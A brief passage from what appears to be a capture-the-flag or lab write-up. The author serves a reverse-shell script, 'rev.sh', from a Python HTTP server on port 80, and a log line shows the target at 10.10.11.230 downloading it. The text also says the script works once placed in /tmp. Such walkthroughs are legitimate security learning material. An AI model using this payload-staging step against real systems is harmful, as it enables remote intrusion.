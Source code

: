     
    
    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.230 - - [27/Feb/2024 11:05:08] "GET /rev.sh HTTP/1.1" 200 -
    

But there’s an error in the response:

![image-20240227110642749](../img/image-20240227110642749.png)

If I move to `/tmp/rev.sh`, it seems to work:
